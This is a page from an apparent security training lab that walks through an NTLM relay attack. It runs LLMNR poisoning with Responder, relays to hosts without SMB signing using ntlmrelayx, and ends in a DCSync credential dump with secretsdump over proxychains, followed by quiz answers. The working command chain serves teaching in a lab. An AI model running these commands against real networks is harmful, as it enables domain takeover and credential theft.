

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/NTLMrelaySMB/index.html · generator: mkdocs

#NTLM relay

An NTLM relay attack focuses on intercepting NTLM messages sent from a legitimate client trying to access some service, modifying them, and redirecting them to a legitimate server, impersonating the original client. This attack can be perpetrated by an attacker which positions themselves between the server and the client (MITM).

This MITM position can be reached through the use of the LLMNR poisoning attack, for example, also addressed in this lab.

In order to perpetrate this attack, two terminals will be used. In order to use two terminals, access the "Attacker2" machine and execute the following:
```
ip add add 192.168.122.35/24 dev eth0
ssh ubuntu@192.168.122.2
#introduce ubuntu's password (it's 'ubuntu')
```

Now, onto the attack. This attack will only work against machines that have SMB signing disabled. To check which machines are vulnerable, execute the following:
```
crackmapexec smb 192.168.122.0/24
```
It seems that both MEMBER and CAPTAIN have SMB signing disabled, both being susceptible to this attack.

To perpetrate this attack, first change the 'Responder.conf' file content to what can be seen in  [Responder.conf.txt](../multi-domain-attacks/Responder.conf.txt). Then, create a file named 'targets.txt' with the contents seen in  [targets.txt](../multi-domain-attacks/targets.txt). Now, in one terminal:

```
ntlmrelayx.py -tf targets.txt -socks -smb2support
#if you see some permission error upon running this script, do the following
readlink -f $(which python3)
sudo setcap cap_net_bind_service=+ep <output from the last command>
```
Once the ntlmrelayx.py script is listening for incoming NTLM messages, on a different terminal, start the Responder tool, which will poison legitimate clients through LLMNR, which will result in the client sending NTLM messages to the attacker.

```
#in the Responder directory
sudo -E python3 Responder.py -I ens3
```
After waiting for +/- 5 minutes, you should now have relayed authentication from both the Administrator and Hank accounts to the CAPTAIN DC. In order to verify relayed connections, run the following:
```
#in the ntlmrelayx terminal
socks
```
This command will output connections that can be used through a SOCKS5 proxy. You can now perform a DCSync attack using the Administrator connection, since this account has the necessary permissions to replicate DC data. With the DCSync, you retrieve every domain credential, compromising the domain. For this, use the secretsdump.py script from Impacket, along with the proxychains4 tool, in order to use the SOCKS proxy, and therefore, the Administrator's connection (Do not stop the ntlmrelayx script from running, stop the Responder tool and use that same terminal):
```
sudo -E proxychains4 $(which secretsdump.py) -no-pass -use-vss NORTH/Administrator@192.168.122.10
```

This way, just by relaying NTLM messages, an attacker is able to compromise the whole domain.

!!! question
    How was the attacker able to position itself between the client and the server? 
??? success "Answer"
    The MITM position was reached through LLMNR poisoning through the Responder tool. The Responder tool listens for legitimate LLMNR requests and issues poisoned replies to clients, indicating that the server that the client wants to access is in fact the attacker machine. This way the attacker can position itself between the client and server.
!!! question
    What's the role of the SOCKS proxy in this attack?
??? success "Answer"
    In this attack, the attacker establishes a SOCKS5 proxy on their own machine, bound to the context of the compromised session (Admin/Hank's) by means of a NTLM relay attack. Tools like proxychains then route traffic through this proxy, making it appear as if requests originate from the relayed host. This enables the attacker to directly access internal services—such as dumping credentials with secretsdump.py—using the victim’s authenticated session.
